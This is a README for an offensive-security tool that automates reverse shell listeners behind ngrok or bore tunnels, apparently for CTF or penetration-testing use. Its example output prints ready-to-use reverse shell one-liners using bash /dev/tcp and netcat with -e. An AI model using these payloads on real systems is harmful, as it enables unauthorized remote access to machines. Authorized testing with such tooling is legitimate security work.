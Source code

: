 # Tunnelvision

Automate reverse shell setup using tunnel services (ngrok or bore).

## What it does

- Sets up a local listener on your chosen port
- Creates a TCP tunnel (ngrok or bore) to expose your listener publicly
- Displays ready-to-use example reverse shell commands with your public IP/port
- Automatically upgrades Linux shells for better interactivity
- Supports both Linux/Mac and Windows shells

## Installation

```bash
# Clone the repository
git clone https://github.com/Nissen96/tunnelvision.git
cd tunnelvision

# Install dependencies with uv (recommended)
uv sync

# Or optionally with pip (a venv is recommended)
pip install .
```

## Setup

### For bore (recommended - no setup required!)
Bore works out of the box with no authentication or setup required. Just install bore:

```bash
# Install bore (choose one method)

# Option 1: Install with cargo
cargo install bore-cli

# Option 2: Download binary from releases
# https://github.com/ekzhang/bore/releases

# Option 3: Install with package manager
# macOS: brew install bore-cli
# Arch Linux: yay -S bore
```

#### Self-hosting bore server
You can optionally run your own bore server for better control:

```bash
# Start your own bore server
bore server

# Use your server with this tool
uv run revshell.py 4444 --to your-server.com
```

### For ngrok
If you want to use ngrok instead of bore:

1. Install ngrok Python package:
   ```bash
   pip install ngrok
   ```

2. Sign up for an [ngrok account](https://dashboard.ngrok.com/signup) if you don't have one.
3. Get your ngrok auth token: [Your Authtoken](https://dashboard.ngrok.com/get-started/your-authtoken)
4. Set your auth token:
   ```bash
   export NGROK_AUTHTOKEN=your_token_here
   ```
   Or create a `.env` file:
   ```
   NGROK_AUTHTOKEN=your_token_here
   ```

## Usage

*Note: Replace `uv run` with `python` if you installed with `pip`*.

```bash
# Basic usage (defaults to bore tunnel and bash shell)
uv run revshell.py 4444

# Use ngrok instead
uv run revshell.py 4444 --tunnel ngrok

# Specify shell type
uv run revshell.py 4444 --shell powershell
uv run revshell.py 4444 --tunnel bore --shell sh
uv run revshell.py 4444 --tunnel ngrok --shell bash

# Use custom bore server
uv run revshell.py 4444 --to my-bore-server.com
uv run revshell.py 4444 --tunnel bore --to localhost:7835

# Short options
uv run revshell.py 4444 -t ngrok -s powershell

# Skip printing reverse shell examples
uv run revshell.py 4444 --quiet
```

## Options

- **PORT**: Local port to listen on (1-65535) - positional argument
- **--tunnel, -t**: Tunnel type - 'ngrok' or 'bore' (default: bore)
- **--shell, -s**: Shell type for reverse shell examples (default: bash)
- **--to**: Remote server for bore tunnel (default: bore.pub). Only used with bore tunnel.
- **--quiet, -q**: Don't print reverse shell examples

### Supported Shells

**Linux/Unix:**
- `sh`, `bash`, `zsh`, `fish`, `dash`, `ash`, `ksh`, `csh`, `tcsh`, `mksh`, `pdksh`

**Windows:**
- `powershell`, `pwsh`, `cmd`

**Note:** You can specify any shell name - the tool will generate appropriate reverse shell examples for the specified shell.
However, the shell will not be attempted upgraded if it is unknown.

## Example Output

```
[+] Setting up bore tunnel...
[+] Listening at 1.2.3.4:12345 (bore.pub)...

=============== REVSHELL EXAMPLES ===============

Bash:
────────────────────────────────────────────
bash -i >& /dev/tcp/1.2.3.4/12345 0>&1
────────────────────────────────────────────

Netcat:
────────────────────────────────────────────
nc 1.2.3.4 12345 -e bash
ncat 1.2.3.4 12345 -e bash
────────────────────────────────────────────

[+] Waiting for connection...
    Press Ctrl+C to exit
```

## Features

- **Multiple tunnel options**: Choose between bore or ngrok
- **Automatic shell upgrade**: Linux shells get PTY upgrades, aliases, and proper terminal settings
- **Multiple examples**: Bash, Netcat, Python, Perl, Ruby, and PowerShell reverse shells
- **Clean exit**: Automatically closes tunnels when you exit
- **Cross-platform**: Works on Linux, macOS, and Windows

## Requirements

- Python 3.9+
- bore (required for bore tunnels)
- ngrok Python package (optional, only needed for ngrok tunnels)
- `uv` package manager (recommended) or `pip`

## License

MIT
